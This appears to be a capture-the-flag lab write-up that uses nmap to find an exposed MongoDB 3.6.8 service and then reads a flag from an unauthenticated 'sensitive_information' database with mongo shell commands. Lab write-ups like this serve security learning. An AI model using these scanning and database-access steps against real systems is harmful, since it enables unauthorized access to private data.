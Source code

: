 ---- 
## Initial Information

- Attacker IP = 10.129.241.49
- Victim IP = 10.129.72.29
---
## Initial scan

- Did the initial scan, this only showed 1 port open for ssh
```shell
nmap -sV 10.129.72.29              
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

```

- Then did a full scan for all the ports that were not in the initial 1000 popular ports. found that there is mongodb running on port 27017. Found that the OS is ubuntu
```shell
nmap -p- -sV 10.129.72.29

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
- Mongo is a NoSQL database . showed the databases using the following 
```shell

> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> 

```
- following commands to get the flag

```shell 
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty();
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
> 


```

---- 
## Resources

Mongodb https://www.mongodb.com/docs/manual/release-notes/3.6/